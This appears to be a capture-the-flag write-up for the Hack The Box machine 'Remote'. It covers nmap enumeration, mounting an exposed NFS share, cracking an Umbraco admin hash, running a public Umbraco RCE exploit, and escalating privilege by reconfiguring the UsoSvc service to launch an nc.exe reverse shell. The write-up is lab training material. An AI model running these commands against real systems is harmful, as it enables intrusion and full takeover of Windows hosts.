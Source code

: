 # Remote walkthrough

Machine ip:

Nmap results: 10.10.10.180

```
# Nmap 7.80 scan initiated Thu Apr  9 16:02:43 2020 as: nmap -o nmap.txt -sS -sV -sC -p 0-8000 -Pn 10.10.10.180
Nmap scan report for 10.10.10.180
Host is up (0.051s latency).
Not shown: 7993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## User

Browsing the website at port 80 led us to a deathpoint because we need some credentials.
focusing on port 2049 and on this article https://resources.infosecinstitute.com/exploiting-nfs-share/ i managed to mount the remote folder
in my machine with the command:
```
showmount -e 10.10.10.180
mkdir /root/Desktop/test
mount -t nfs 10.10.10.180:/site_backup /root/Desktop/test
```

Inside the App_Data folder, there is Umbraco database, sdf format, and in the top of the file (head
command), we find the hash of a user: ``` head Umbraco.sdf```. We need to crack it, it's encoded with sha1.

The credentials (admin@htb.local / baconandcheese) bring us inside the Admin panel on the website and we see that the version running could be exploited
https://github.com/noraj/Umbraco-RCE and running ```python3 exploit.py -u admin@htb.local -p baconandcheese -c powershell.exe -a '-NoProfile -Command cd "./../../../Users/Classic .NET AppPool"; dir' -i http://10.10.10.180``` i can get a shell and i can get the user flag.

## Root

To gain access as Administrator, we run winpeas.exe, a tool that allows automatic enumeration during the
privilege escalation phase. The message appears in red:

```
LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
UsoSvc: AllAccess, Start

```

Payloadallthethins helped me exploiting UsoSvc

```
sc.exe config UsoSvc binPath="cmd.exe /c C:\Users\Public\nc.exe 10.10.15.14 5555 -e cmd.exe"
sc.exe start UsoSvc
```

And listening with nc on my loal machine i could get a shell with root privileges. Root flag captured. 
